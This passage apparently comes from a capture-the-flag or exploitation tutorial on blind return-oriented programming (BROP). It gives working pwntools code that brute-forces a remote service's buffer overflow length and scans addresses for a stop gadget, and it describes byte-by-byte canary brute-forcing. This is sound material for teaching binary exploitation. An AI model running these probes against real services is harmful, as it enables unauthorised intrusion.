 ```python
def get_overflow_length():
	i = 1
	while True:
		try:
			r = remote(host, port)
			r.recvuntil('WelCome my friend,Do you know password?\n')
			r.send('a' * i)
			output = r.recv()
			r.close()
			if not 'No password' in output:
				return i - 1
			else:
				i += 1
		except EOFError:
			r.close()
			return i - 1
```

If there is a canary, we have to brute-force it byte by byte, making it `256 * 8 = 2048` tries for 64-bit systems.

### Find stop gadget
As explained earlier, to find a BROP gadget, we need to use a stop gadget.

Our payload is in this form
```python
padding_bytes|canary(if there is)|address
```

Just keep trying addresses until we find something that does not crash the service.

```python
def get_stop_gadget(offset):
	addr = 0x400000
	while True:
		try:
			r = remote(host, port)
			r.recvuntil('WelCome my friend,Do you know password?\n')
			r.send('a' * offset + p64(addr))
			content = r.recv()
			r.close()
			if 'WelCome' in content:
				return addr
			addr += 1
		except EOFError:
			r.close()
			addr += 1
		except PwnlibException:
			pass
```

We can find any address as long as it does not crash the service, or stays in an infinite loop. Here, I decided to find one that prints the welcome message.

